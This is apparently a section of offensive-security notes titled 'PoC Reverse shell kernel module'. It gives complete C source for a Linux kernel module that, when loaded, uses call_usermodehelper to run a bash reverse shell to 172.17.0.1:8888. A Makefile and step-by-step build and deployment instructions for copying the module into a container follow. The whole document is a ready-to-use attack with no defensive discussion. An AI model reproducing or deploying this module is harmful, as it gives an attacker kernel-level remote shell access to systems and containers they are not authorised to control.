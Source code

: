 #### 1.6.3.2. PoC Reverse shell kernel module

Install linux headers:
```
sudo apt-get install -y build-essential linux-headers-$(uname -r)
```

Reverseshell_module.c:
```
#include <linux/init.h>
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/kmod.h>

static char command[] = "bash -i >& /dev/tcp/172.17.0.1/8888 0>&1"; //Reverse shell change ip and port if needed

char *argv[] = {
    "/bin/bash",
    "-c",    // flag make command run from option list
    command, // Reverse shell
    NULL     // End of the list
};
static char *envp[] = {
    "HOME=/",
    NULL // End of the list
};

static int __init connect_back_init(void)
{

    return call_usermodehelper(
        argv[0],      // execution path
        argv,         // arguments for process
        envp,         // environment for process
        UMH_WAIT_EXEC // don't wait for program return status
    );
}

static void __exit connect_back_exit(void)
{
    printk(KERN_INFO "Exiting\n");
}

module_init(connect_back_init);
module_exit(connect_back_exit);
```

Makefile:
```
obj-m += reverseshell_module.o

all:
	make -C /lib/modules/$(shell uname -r)/build M=$(shell pwd) modules

clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(shell pwd) clean
```
Required Steps:
- install linux headers
- create reverseshell_module.c
- change IP/Port as required
- create makefile
- build exploit with `make`
- copy reverseshell_module.ko to container
- make executable `chmod +x`